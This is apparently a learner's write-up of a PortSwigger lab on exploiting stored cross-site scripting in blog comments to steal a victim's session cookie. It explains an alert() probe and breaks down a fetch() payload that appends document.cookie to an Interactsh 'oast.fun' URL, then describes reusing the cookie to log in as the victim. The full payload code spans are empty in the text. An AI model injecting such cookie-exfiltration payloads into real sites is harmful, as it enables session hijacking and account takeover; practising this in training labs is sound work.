







# Lab: Exploiting cross-site scripting to steal cookies

**Difficulty:** Practitioner

**Link:** https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies

## Objective : This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

## Analysis
**Context:** Blog Comment, Elements Panel, Interactsh.

**Payloads/Inputs Used**: 
``
``

I firsly checked that whether the blog comment functionality is accepting any payloads or not. For this i gave this payload `` as an input in the blog comment functionality. 
Then got to know that the payload has been accepted and is exeucted successfully.

The payload ``: The code snippet  is a simple line of JavaScript code embedded within HTML script tags. It is primarily known as a Cross-Site Scripting (XSS) payload used for testing web security. `alert()` is a function that displays an alert box (a pop-up dialog) in the user's browser.

As we know that now the input has beem accpeted so we need to give it a payload that can retain the user's cookies. 

Due to the unavailability of Burp Suite Professional and the Collaborator client, I utilized Interactsh (by ProjectDiscovery) as an alternative OAST solution to capture the exfiltrated data

The payload now to be given is: `` 

**Breakdown of payload:**

**The Container `

*Meaning*: "Hey Browser, don't display this as text. Treat this as a program and run it immediately."

**The Vehicle (fetch)Code**: fetch(...)

*Meaning*: This command tells the browser to make a background network request. It is normally used to load data, but here it is being used to send data out.

*Analogy*: It's like putting a letter in the mailbox.

**The Destination (The URL) Code**: 'https://...oast.fun/...'

*Meaning*: This is the address where the "letter" is being sent. oast.fun is a domain often used by security testers (or attackers) to catch incoming data.

*Analogy*: This is the hacker's home address.

**The Stolen Good(document.cookie) Code**: ?cookie=' + document.cookie

*Meaning*:
document.cookie is a command that grabs the secret "Session ID" or "ID Badge" currently stored in your browser for that website.

The + appends that secret key to the end of the URL.

*Analogy*: This is the pickpocket reaching into your pocket, taking your wallet, and taping it to the outside of the envelope before mailing it.

After submitting the payload the request is captured in Interactsh, that also gets us the cookies.

Then, I went back to the lab's web page and then inspected the `cookies` in the `Application section` under the `Element Panel`.

I entered the cookie in the element panel and lwas able to log in.

